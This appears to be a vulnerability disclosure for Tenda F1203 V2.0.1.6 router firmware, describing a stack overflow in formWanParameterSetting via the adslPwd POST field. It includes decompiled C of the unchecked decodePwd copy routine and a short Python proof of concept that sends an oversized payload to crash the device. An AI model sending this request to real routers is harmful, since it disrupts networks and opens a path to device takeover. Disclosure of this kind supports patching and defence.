 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2494.html

## Affected version

F1203 V2.0.1.6

## Vulnerability details

The Tenda F1203 V2.0.1.6 firmware has a stack overflow vulnerability located in the `formWanParameterSetting` function. This function accepts the `wanType`and `connect` parameter from a POST request. Within `v4 == 2`, this function accepts the `adslPwd` parameter from a POST request, which is assigned to `decodePwd(v11, v15);`. However, since the user has control over the input of `adslPwd`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `adslPwd` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144504996.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144434686.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144449758.png)

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WanParameterSetting"
payload = b"a"*1000

data = {"wanType":"2","connect":"1","adslPwd": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)